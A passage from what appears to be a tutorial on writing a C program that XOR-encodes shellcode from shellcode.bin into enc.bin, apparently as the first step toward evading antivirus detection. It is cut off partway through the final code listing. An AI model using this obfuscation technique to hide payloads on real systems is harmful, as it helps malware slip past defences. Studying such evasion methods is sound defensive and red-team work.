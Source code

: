 Let's get started. First, we'll create our encrypter. This will be a pretty bare solution, error handling and other best practices will be resolved later. 

After initializing our variables, we'll need to access our two files: one is where we'll read in our shellcode, shellcode.bin, and the other is where we'll write our encrypted shellcode, enc.bin. These files will reside in the same directory as our encypter. Since we'll be reading/writing binary files, we'll use the `b` mode. If enc.bin doesn't exist, the program will create it.

Additionally, we'll get the statistics of our shellcode file so we know how much memory we need to allocate. 

```c
enc_file = fopen("enc.bin", "wb+");
sc_file = fopen("shellcode.bin", "rb");

stat("shellcode.bin", &stats);
```

Once we have our stats, we'll initialize and allocate memory for two character arrays, which will store both the raw binary from the shellcode file and the encrypted output. After, we'll read the data in from the shellcode.bin file.

```c
char* sc = malloc(stats.st_size);
char* sc_xor = malloc(stats.st_size);

fread(sc, stats.st_size, 1, sc_file);
```

We'll loop through the shellcode size, where we will XOR each byte by the key, which we initialized as 5. In most languages, the XOR operator is `^`.

```c
printf("Encrypting shellcode...\n");

for(int i = 0; i < stats.st_size; i++){
    sc_xor[i] = sc[i] ^ key;
}
```

After encrypting the shellcode, all we need to do now is write it to the file we created earlier, enc.bin. Finally, we'll close our files and free the memory we've allocated. All together, our shellcode encryptor looks like:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>

int main(int argc, char **argv) {

    unsigned char key = 5;
    FILE *enc_file;
    FILE *sc_file;
    struct stat stats;

    enc_file = fopen("enc.bin", "wb+");
    sc_file = fopen("shellcode.bin", "rb");

    stat("shellcode.bin", &stats);

    char* sc = malloc(stats.st_size);
    char* sc_xor = malloc(stats.st_size);

    fread(sc, stats.st_size, 1, sc_file);

    printf("Encrypting shellcode...\n");

    for(int i = 0; i < stats.st_size; i++){
```